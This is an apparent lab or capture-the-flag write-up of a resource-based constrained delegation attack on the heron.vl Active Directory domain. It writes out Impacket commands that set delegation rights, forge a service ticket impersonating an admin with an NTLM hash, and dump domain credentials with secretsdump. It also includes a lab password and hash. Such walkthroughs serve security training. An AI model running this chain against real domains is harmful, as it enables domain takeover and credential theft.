 
--> First, if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added with Impacket's addcomputer.py 

But we already got hash of FRAJMP$


--> We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's rbcd.py script can be used for that purpose:

```
└─# impacket-rbcd heron.vl/adm_prju:ayDMWV929N9wAiB4 -action 'write' -delegate-from 'FRAJMP$' -delegate-to 'MUCDC$'
```

--> And finally we can get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. Impacket's getST.py example script can be used for that purpose.

```
└─# impacket-getST -spn 'cifs/MUCDC.heron.vl' -impersonate '_admin' heron.vl/FRAJMP$ -hashes :6f55b3b443ef192c804b2ae98e8254f7
```

This ticket can then be used with Pass-the-Ticket, and could grant access to the file system of the TARGETCOMPUTER.

```
└─# export KRB5CCNAME=_admin@cifs_MUCDC.heron.vl@HERON.VL.ccache
```

```
└─# impacket-secretsdump -k mucdc.heron.vl
```


WE OWN THE DC !

